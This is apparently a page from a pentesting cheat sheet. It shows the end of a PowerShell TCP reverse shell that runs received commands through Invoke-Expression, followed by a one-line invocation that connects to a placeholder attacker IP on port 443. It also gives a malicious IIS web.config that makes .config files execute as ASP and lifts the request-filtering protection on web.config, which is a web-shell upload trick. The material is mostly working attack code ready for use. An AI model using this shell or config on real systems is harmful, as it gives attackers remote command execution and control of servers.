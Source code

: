 ```powershell
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}


Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port 443
```

### Web.config

```asp
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
```